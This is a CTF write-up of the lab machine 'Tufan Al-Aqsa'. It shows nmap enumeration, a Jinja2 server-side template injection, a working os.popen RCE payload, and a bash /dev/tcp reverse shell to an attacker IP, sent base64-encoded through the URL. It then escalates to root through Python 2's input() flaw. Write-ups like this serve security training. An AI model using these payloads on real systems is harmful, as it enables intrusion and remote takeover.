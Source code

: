 ```yaml
---
title: Tufan Al-Aqsa Machine Write up
categories: [Write-ups, MachinesCTF]
tags: [CTF,Pentesting]     # TAG names should always be lowercase
comments: false
published: true
---
```


# **Tufan Al-Aqsa**

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled.png)

IP: 10.0.0.133

## **Enumeration**
We start by scanning the machine with nmap.

Discover all open ports:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%201.png)

Check what is exactly running on these ports:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%202.png)

## **Foothold**

There is python web application running on port 80.

Visiting it we get:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%203.png)

If we try to inspect the source code, surprisingly we cant!

Trying to check robots.txt file

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%204.png)

We get this error page, and we notice that the file name is displayed in the error message.

Since it is a python web server it may be vulnerable to SSTI.

So to check we try the famous `{{7*7}}` SSTI payload.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%205.png)

As we can see it returned 49 which proves that it is vulnerable.

So we now try to find a [payload](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/) that can lead to RCE and then get a reverse shell.

```python
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%206.png)

We have successfully run `id` command.

**For reverse shell:**

First we set up a listener:

```bash
nc -nvlp 1234
```

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%207.png)

Then we get a reverse shell payload: (you can use https://www.revshells.com/ to generate one)

```bash
/bin/bash -i >& /dev/tcp/10.0.0.132/1234 0>&1
```

Encode it with bsae64

```bash
echo '/bin/bash -i >& /dev/tcp/10.0.0.132/1234 0>&1' | base64 
```

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%208.png)

```bash
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC4xMzIvMTIzNCAwPiYxCg==
```

This will echo the command, decode it and run it. This way we wont face any problems running commands.

```bash
http://10.0.0.133/{{request.application.__globals__.__builtins__.__import__('os').popen('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjAuMC4xMzIvMTIzNCAwPiYxCg== | base64 -d | bash').read()}}
```

And we get the reverse shell

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%209.png)

We can find the user.txt flag inside the home directory for the user zoznoor23. 🇵🇸

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2010.png)

## **Privilege Escalation**
Running `sudo -l` to check what the user zoznoor23 can run using sudo.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2011.png)

So the user zoznoor23 can run python2 on /opt/i_dont_trust_sudo.py as root.
Let us try running it:

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2013.png)

It asks for a password, but we do not have any.

Let us read the file to understand how it works, or to get a clue about what the password is.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2012.png)

So bsically the code reads a password form /root/password.txt, and check if our input matches the password, then it will run /bin/bash giving us a shell as root.

Since we did not found any clue, we should look somewhere else.

What is interesting here is that it is using python 2, whihle python3 exists on the machine which is weried.

Searching for python 2 vulnerabilities we find that the input() function in python2 is  vulnerable.

The vulnerability in input() method lies in the fact that the variable accessing the value of input can be accessed by anyone just by using the name of the variable or method. Below are some vulnerability in input() method:
- Variable name as input parameter
- Function name as parameter

[Read about the vulnerability.](https://www.geeksforgeeks.org/vulnerability-input-function-python-2-x/)


So in our case we just need to provide `secure_password` as our input, and we now we got a shell as root.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2014.png)

Now we can go to the home directory for the root user and read root.txt flag.

![Untitled](/assets/img/machinesCTF/Tufan-Al-Aqsa/Untitled%2015.png)
